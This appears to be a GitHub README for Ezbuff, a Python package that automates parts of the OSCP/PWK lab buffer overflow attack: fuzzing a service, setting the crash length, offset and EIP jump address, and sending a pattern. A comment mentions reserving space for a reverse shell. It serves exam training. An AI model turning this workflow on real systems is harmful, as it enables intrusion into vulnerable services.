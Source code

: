 # Ezbuff
Ezbuff is a Python package created to make the **2020 PWK buffer overflow** easier to perform and understand. I created this package because I am aware of the number of people who lose a lot of time during their **OSCP** exams because of the buffer overflow box and thought this would assist the process. Ezbuff does not perform the buffer overflow for you, it simply automates a lot of the procedures that need to be executed to accomplish a successful buffer overflow attack. Therefore, the manual labor like determining the actual number of bytes to send to crash the vulnerable application, filtering bad characters from registers, and payload generation are all left to the user.

## Installation
```python
pip install ezbuff
```

## Usage
```python
#!/usr/bin/env python3

from ezbuff.src.overflow import Overflow

def main():
	# Instanstantiate `Overflow` object
	test = Overflow("192.168.230.10", 80, max_fuzz_bytes=2000)

	# Change the target IP if running in interactive Python interpreter
	test.targ_ip = "10.10.10.1"

	# Change the target port number if running tests in interactive Python interpreter
	test.targ_port = 443

	# The number of seconds to wait in between the fuzzing process,
	# default = 10
	test.fuzz_interval_seconds = 2

	# Add bad characters to objects list containing bad characters found
	# after sending characters payload.
	test.add_bad_char('\x00', '\x01', '\x02')

	# Set the increment of the fuzzer to be 150 as opposed to
	# the default of 100
	test.fuzz_increment = 150

	# Fuzz the vulnerable application
	test.fuzz()

	# Sets the number of bytes to crash the application.
	# Make sure to accomodate space for reverse shell!!
	test.num_bytes_crash = 1200

	# Set the offset after running the functions to find offset value
	test.offset = 800

	# Set the memory address to jump to after finding valid memory address
	# containing `jump` instructions set in x86 architecture
	test.jump_eip = "\x8f\x35\x4a\x5f"

	# Sending pattern to determine offset
	test.send_pattern()

if __name__ == '__main__':
	main()
```
